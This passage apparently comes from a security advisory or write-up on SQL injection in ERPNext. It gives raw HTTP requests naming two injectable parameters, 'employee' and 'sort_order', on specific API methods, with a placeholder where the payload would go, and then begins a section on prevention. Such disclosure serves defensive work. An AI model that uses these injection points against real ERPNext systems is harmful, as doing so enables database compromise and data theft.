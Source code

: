 **employee parameter**

The employee parameter can be used to perform an SQL injection attack as shown below:
```sh
POST / HTTP/1.1
Host: 192.168.239.140
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:59.0) Gecko/20100101 Firefox/59.0
Accept: application/json, text/javascript, /; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.239.140/desk
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Frappe-CSRF-Token: 14ee26a793805ed02dbd172b28d514503da3d31fb5e9392930567947
X-Requested-With: XMLHttpRequest
Content-Length: 194
Cookie: user_image=; user_id=Administrator; system_user=yes; full_name=Administrator; sid=dd26a9f121a4177ed22d8f5ff0a93508eb095cbf18cecaa020cccdd4; io=-cQWmng9Wch23ijkAAAF
DNT: 1
Connection: close

    employee=EMP%2f0001<SQLINJECTION>&date=2018-03-07&leave_type=Leave+Without+Pay&consider_all_leaves_in_the_allocation_period=true&cmd=erpnext.hr.doctype.leave_application.leave_application.get_leave_balance_on
```

**sort_order parameter**

The sort_order parameter can be used to perform an SQL injection attack as shown below:
```sh
POST / HTTP/1.1
Host: 192.168.239.140
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:59.0) Gecko/20100101 Firefox/59.0
Accept: application/json, text/javascript, /; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.239.140/desk
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Frappe-CSRF-Token: 14ee26a793805ed02dbd172b28d514503da3d31fb5e9392930567947
X-Requested-With: XMLHttpRequest
Content-Length: 113
Cookie: user_image=; user_id=admin%40admin.com; system_user=yes; full_name=asd; sid=dd26a9f121a4177ed22d8f5ff0a93508eb095cbf18cecaa020cccdd4; io=ELCOCSQzSPt1L6_fAAAE
DNT: 1
Connection: close

    item_code=asdasd&start=0&sort_by=projected_qty&sort_order=asc<SQLINJECTION>&cmd=erpnext.stock.dashboard.item_dashboard.get_data
```

## Prevention Techniques for SQL Injection Attacks

**Web framework**
